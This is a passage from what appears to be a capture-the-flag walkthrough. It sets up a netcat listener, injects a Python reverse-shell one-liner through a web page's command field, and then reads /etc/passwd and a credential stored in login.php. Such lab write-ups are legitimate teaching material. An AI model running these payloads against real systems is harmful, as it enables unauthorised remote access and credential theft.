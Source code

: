 
## PART 3 : Generate User Shell

1. Generate a reverse shell:
   - Local terminal:
     ```console
     nc -lvp 4444
     ```
   - __/page.php__:
     
     inputCmd | inputOTP
     --- | ---
     `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.12.62",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` | Generate an OTP using `stoken`

   - While inside the shell:
     ```sh
     id
     # uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0

     cat /etc/passwd | grep bash
     # root:x:0:0:root:/root:/bin/bash
     # ldapuser:x:1000:1000::/home/ldapuser:/bin/bash

     ls -lah
     # ...
     # -rw-r-----. 1 root   apache 5.0K Oct 23  2018 login.php
     # -rw-r-----. 1 root   apache   68 Oct 23  2018 logout.php
     # -rw-r-----. 1 root   apache 5.2K Oct 23  2018 page.php
     # ...

     cat login.php
     # ...
     # $username = 'ldapuser';
     # $password = 'e398e27d5c4ad45086fe431120932a01';
     # ...
     ```

